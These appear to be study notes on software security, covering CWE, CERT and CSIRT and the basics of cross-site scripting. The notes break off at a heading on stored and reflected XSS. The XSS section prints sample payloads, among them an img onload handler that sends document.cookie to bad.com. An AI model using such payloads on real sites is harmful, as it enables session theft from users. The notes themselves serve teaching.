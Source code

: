 ### CWE (Common Weakness Enumeration)

Common language of discourse for discussing, finding and dealing with the causes of software security vulnerabilities

- Found in code, design, or system architecture
- Each individual CWE represents a single vulnerability type

**Seven Pernicious Kingdoms - **Input validation. API abuse. Security features. Time and state. Errors. Code quality. Encapsulation. Environment

**CERT (Computer Emergency Readiness Team) - **Organization devoted to ensuring that appropriate technology and systems management practices are used to resist attacks no networked systems

**CSIRT (Computer Security Incident Response Team) - **Service organization that is responsible for receiving, reviewing, and responding to computer security incident reports and activity



## 3 - XSS Cross-Site Scripting

Injection of scripts provided by clients into Web pages

Inherent to how HTML works

**Correct Usage - **\<img src='img.png'> \</img>

**Not Correct Usage - **\<img src=‘img.png’>

​									 \<script> alert(“hi”); \</script>

​								     \</img>

#### **Information Stealing**

\<img src=“img.png” onload=“window.open(http://bad.com/reg.php?’+document.cookie)”>\</img>

Open window, sends current cookie to bad.com

#### Injection Vectors

- **Any non parsed text -** \<p>Hi there\<script>alert(‘hehe’)\</script>\</p>
- **Media tags - **\<img src="http://bank.com/delete_account.php">\</img>
- **URLs - **http://foo.bar/index.php?search=\<script>alert(‘hi’)\</script>

#### Stored XSS                                                        |                                                 Reflected XSS
